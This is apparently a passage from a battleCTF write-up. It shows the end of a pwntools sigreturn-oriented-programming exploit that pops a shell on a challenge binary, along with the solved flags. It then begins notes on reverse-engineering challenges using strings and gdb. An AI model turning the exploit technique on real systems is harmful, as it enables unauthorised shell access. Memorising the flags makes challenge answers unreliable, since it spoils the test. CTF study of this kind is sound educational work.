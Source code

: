 ```python
# Build the payload
payload = flat({
    offset: [
        rax_0xf,
        syscall,
        frame
    ]
})

io.sendline(payload)

# Got Shell?
io.interactive()
```

Running it gives me shell locally
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f10a8a4c-4203-467d-a7ec-a468aeb8d1f4)

It also works remotely
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/00a3ad22-393d-447c-93cb-24cb494b5e59)

```
Flag: battleCTF{Ethnicity_SigROP_Syscall_Army_f0d9e29e9c1d03c996083bb9c3325d33}
```

### Reverse Engineering 6/8 :~

#### SEYI 
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/afddabf1-743a-41ca-9161-dff46bc6c2d5)

After downloading the binary running strings on it gave me the flag
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f28863d2-b363-410d-9983-59c5f56d9932)

```
Flag: battleCTF{The_path_to_light}
```

#### Welcome
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/dff0c77f-12fc-4531-a3b3-dd2c4bc6999c)

After downloading the binary I checked the file type
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/f3567618-84e8-4e25-89cd-9d65de607bd5)

From the result we can see it's a statically linked binary 

Running it just shows some text
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/92bc3277-5a31-4039-a256-77d8122c787f)

Opening it up in gdb-gef and disassemblying the _start function shows this
![image](https://github.com/h4ckyou/h4ckyou.github.io/assets/127159644/4f64832a-4c3b-48cc-8102-a87c0c97e057)
